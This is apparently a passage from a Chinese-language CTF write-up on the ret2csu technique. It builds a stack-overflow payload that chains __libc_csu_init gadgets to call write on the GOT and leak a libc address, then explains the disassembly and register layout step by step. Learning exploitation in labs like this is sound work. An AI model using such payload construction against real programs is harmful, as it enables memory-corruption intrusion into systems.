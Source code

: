 ```shell
    payload = b'a' * 0x88 			#0x80+8个字节填满栈空间至ret返回指令
    payload += p64(csu_gadget_2) 
    payload += p64(0) + p64(0) + p64(1) + p64(write_got) + p64(1) + p64(write_got) + p64(8)
    payload += p64(csu_gadget_1)
    payload += b'a' * 0x38     # 0x38个字节填充平衡堆栈造成的空缺
    payload += p64(main)

#------------------------------------------------------------------------------------
  400604:       75 ea                   jne    4005f0 <__libc_csu_init+0x50>
  400606:       48 8b 5c 24 08          mov    rbx,QWORD PTR [rsp+0x8]
  40060b:       48 8b 6c 24 10          mov    rbp,QWORD PTR [rsp+0x10]
  400610:       4c 8b 64 24 18          mov    r12,QWORD PTR [rsp+0x18]
  400615:       4c 8b 6c 24 20          mov    r13,QWORD PTR [rsp+0x20]
  40061a:       4c 8b 74 24 28          mov    r14,QWORD PTR [rsp+0x28]
  40061f:       4c 8b 7c 24 30          mov    r15,QWORD PTR [rsp+0x30]
  400624:       48 83 c4 38             add    rsp,0x38
  400628:       c3                      ret
  400629:       0f 1f 80 00 00 00 00    nop    DWORD PTR [rax+0x0]
```

前面的mov指令都是对sp+xxxxx进行的偏移，实际上对sp的值并未进行修改，所以最后要根据反编译的函数+0x38才是返回地址。

此时寄存器的排布和所存储的数据：

![image-20230424200602528](https://gitee.com/noble_chiam/Pic-Go-Pic-Bed/raw/master/Typora/2023-04-24 20:06:03.png)

然后csu_gadget_1 执行时：

```shell
loc_4005F0:
mov     rdx, r15          --------------------------------------8
mov     rsi, r14	      --------------------------------------write_got	
mov     edi, r13d         --------------------------------------1
call    qword ptr [r12+rbx*8]   --------------------------------r12+0 write_got
add     rbx, 1            --------------------------------------0+1=1
cmp     rbx, rbp		  --------------------------------------1==1  zf=1
jnz     short loc_4005F0  --------------------------------------不跳转
```

不跳转执行什么呢？看图

![image-20230424204201561](https://gitee.com/noble_chiam/Pic-Go-Pic-Bed/raw/master/Typora/2023-04-24 20:42:02.png)

即

```shell
  400604:       75 ea                   jne    4005f0 <__libc_csu_init+0x50>
  400606:       48 8b 5c 24 08          mov    rbx,QWORD PTR [rsp+0x8]
  40060b:       48 8b 6c 24 10          mov    rbp,QWORD PTR [rsp+0x10]
  400610:       4c 8b 64 24 18          mov    r12,QWORD PTR [rsp+0x18]
  400615:       4c 8b 6c 24 20          mov    r13,QWORD PTR [rsp+0x20]
  40061a:       4c 8b 74 24 28          mov    r14,QWORD PTR [rsp+0x28]
  40061f:       4c 8b 7c 24 30          mov    r15,QWORD PTR [rsp+0x30]
  400624:       48 83 c4 38             add    rsp,0x38
  400628:       c3                      ret
```
